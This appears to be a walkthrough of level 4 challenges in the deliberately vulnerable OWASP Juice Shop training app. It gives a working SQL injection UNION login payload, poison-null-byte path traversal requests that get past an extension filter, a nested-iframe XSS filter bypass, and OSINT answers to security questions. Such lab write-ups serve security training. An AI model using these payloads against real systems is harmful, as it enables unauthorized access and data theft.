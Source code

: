 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!